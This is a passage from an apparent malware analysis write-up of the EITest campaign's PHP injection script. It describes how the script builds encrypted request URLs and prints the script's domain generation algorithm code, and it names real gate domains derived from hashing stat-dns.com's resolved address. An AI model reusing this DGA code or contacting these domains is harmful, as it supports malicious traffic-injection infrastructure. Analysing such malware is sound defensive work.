 If this last verification process completes without any failure, the payload is ready to be requested. Otherwise, no code is injected into the page, and the victim can browse the website without any harm.

Before the function **day212()** initiates the HTTP request, asking for content injection, a random operation ID is generated to identify the request when received. It is then concatenated with all the previous saved parameters to craft a unique URL using the **k34()** function, which takes the result of the custom encrypting method **en2()** and encode it in base64.

<figure>
 <img src="/images/2017/crafted-url.png" alt="Crafted URL example">
 <figcaption>Crafted URL example</figcaption>
</figure>

The **cqq()** function is now called to retrieve a valid destination domain to send the request to. Despite the function having a defined array of four domains, they are not used. If we look closely, the **ccq()** function return the **random()** function. The **random()** function is, in fact, a simple [DGA](https://en.wikipedia.org/wiki/Domain_generation_algorithm) which generates domains names by splitting a hash into four parts of eight characters:

```
function cqq($qw)
{
 $domarr = array(
        "33db9538",
        "9507c4e8",
        "e5b57288",
        "54dfa1cb"
 );
 return random($domarr, $qw);
}

function random($arr, $qw)
{
  $arr = str_split(md5('.com'.gethostbyname('stat-dns.com')), 8);
  return $arr[rand(0, 1.125)] . $qw;
}
```

The MD5 hash is obtained by adding the TLD '.com' to the result of : gethostbyname('stat-dns.com'). At this time, gethostbyname('stat-dns.com') return **8.8.8.8**. That being said, the MD5 hash is generated with the following string : "**.com8.8.8.8**". The outputting result is : **54dfa1cb33db9538e5b572889507c4e8.** Split this string in four, and you'll have the EITest gate domains to contact.

The last line of the **random()** function will return randomly the first or the second domain that has been generated in the array. So it seems that contacted domains will be **54dfa1cb.com** or **33db9538.com**. However, if we suppose that the domain **stat-dns.com** is controlled by the same actor, they only need to change the A record to something else than **8.8.8.8** and the malicious script will generate new domains to contact.

If there is a failure in the resolution of **stat-dns.com**, [the documentation of the PHP function **gethostbyname**](https://secure.php.net/manual/en/function.gethostbyname.php) tells us that the returning value will be the unmodified hostname. In this particular case, the MD5 hash will be calculated with this string:  "**.comstat-dns.com**". The returning result will be: **32f988f6e108dfcb8b238dd610f89b8c**. The result will be that the script will try to contact either **32f988f6.com** or **e108dfcb.com**. However, those domains (as well as **8b238dd6.com** and **10f89b8c.com**) are already registered. By visiting those websites directly, we can read this message:

